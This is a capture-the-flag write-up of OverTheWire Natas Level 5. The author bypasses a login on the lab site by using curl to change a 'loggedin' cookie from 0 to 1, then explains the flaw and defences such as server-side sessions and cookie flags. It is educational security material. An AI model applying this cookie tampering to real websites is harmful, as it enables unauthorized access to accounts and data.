

# Natas Level 5: Cookie Jar Secrets

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 5 | natas5 | http://natas5.natas.labs.overthewire.org |

**Introduction:** 

Natas Level 5 threw a new twist at me. Instead of hidden directories or header spoofing, this time the application was checking whether I was "logged in." But I never even got a chance to authenticate. The page just told me I wasn't logged in and that was that. Time to dig deeper and see what's really going on behind the scenes.

---

## Hunting for Clues

When I first accessed the page in my browser, I saw this message:



The page displayed "Access disallowed. You are not logged in" with no login form, no username field, and no way to actually authenticate. This seemed odd. How was the server tracking whether I was logged in if I never had a chance to log in?

I suspected cookies were involved. Cookies are small pieces of data that web servers send to browsers, which the browser then sends back with every subsequent request. They're commonly used for session management and tracking login states.

To investigate, I decided to check the HTTP headers the server was sending. I used curl with the `-I` flag, which fetches only the headers without the page content:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -u natas5:0n3[REDACTED] -I http://natas5.natas.labs.overthewire.org/
HTTP/1.1 200 OK
Date: Sat, 14 Feb 2026 11:11:14 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: loggedin=0
Content-Type: text/html; charset=UTF-8
```

There it was! The server was setting a cookie called `loggedin` with a value of `0`. This was the smoking gun. The application was using this simple cookie to determine authentication state. And here's the kicker: the value was just a plain `0` or `1`, meaning it was completely under client control.

---

## Breaking In

Now that I knew the server was checking a `loggedin` cookie, the solution was straightforward. I just needed to send a request with `loggedin=1` instead of `loggedin=0`. 

I used curl again, this time with the `-b` flag to set a custom cookie value, and the `-i` flag to include response headers in the output:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -u natas5:0n3[REDACTED] -b "loggedin=1" http://natas5.natas.labs.overthewire.org/ -i
HTTP/1.1 200 OK
Date: Sat, 14 Feb 2026 11:13:00 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: loggedin=1
Vary: Accept-Encoding
Content-Length: 890
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "0n3[REDACTED]" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is 0Ro[REDACTED]</div>
</body>
</html>
```

Perfect! The response now shows "Access granted" and reveals the password for the next level. The server happily accepted my manipulated cookie value and granted access without any real authentication.

Let me break down the curl command:

- `curl`: The HTTP client tool
- `-u natas5:0n3[REDACTED]`: Provides HTTP Basic Authentication credentials
- `-b "loggedin=1"`: Sets a cookie named `loggedin` with the value `1`
- `http://natas5.natas.labs.overthewire.org/`: The target URL
- `-i`: Includes HTTP response headers in the output

**The Vulnerability Breakdown:**

This challenge demonstrates **Insecure Cookie Based Authentication**. Here's what went wrong:

1. **Client Side Authentication State:** The application stores the authentication state in a cookie that's completely controlled by the client. Anyone can modify cookie values using browser developer tools, extensions, or command line tools like curl.

2. **No Server Side Validation:** The server trusts the cookie value without any cryptographic validation or signature. It simply checks if `loggedin=1` and grants access accordingly.

3. **No Session Management:** Real authentication systems use session tokens that are randomly generated, stored server side, and validated on every request. This application just uses a simple boolean flag.

4. **Predictable Values:** The cookie uses obvious values (`0` and `1`) that are trivial to guess and manipulate. Even if the values were less obvious, client side cookies should never be trusted for security decisions.

In real world applications, this vulnerability could lead to:
- Complete authentication bypass
- Unauthorized access to user accounts
- Privilege escalation (if admin status is stored in a cookie)
- Data theft or manipulation

The proper approach is to use server side sessions with cryptographically secure, randomly generated session tokens. The server maintains the authentication state and validates the session token on each request. Cookies can be used to transport the session token, but the actual authentication logic lives server side where the client can't tamper with it.

Additionally, cookies should be protected with security flags like:
- `HttpOnly`: Prevents JavaScript from accessing the cookie
- `Secure`: Ensures the cookie is only sent over HTTPS
- `SameSite`: Helps prevent CSRF attacks

---

## The Loot

**Next Level Password:** `0Ro[REDACTED]`

**Quick Recap:** Bypassed authentication by manipulating the client side `loggedin` cookie from `0` to `1` using curl, exploiting the lack of server side session validation.

---

## Lessons Learned

This level taught me several crucial security principles:

1. **Never Trust Client Side Data:** Cookies, like HTTP headers, are completely controlled by the client. Storing authentication or authorization decisions in cookies is fundamentally insecure.

2. **Server Side Sessions are Essential:** Real authentication requires server side state management with cryptographically secure session tokens that can't be guessed or forged.

3. **Defense Requires Validation:** Even if you use cookies for convenience, the actual security checks must happen server side with proper validation mechanisms.

4. **Cookie Inspection is Basic Recon:** During penetration testing or CTF challenges, always inspect cookies to see what state information is being transmitted and whether it can be manipulated.

5. **Simple is Often Vulnerable:** Using simple boolean values or predictable patterns in security critical data makes exploitation trivial.

On to Level 6!
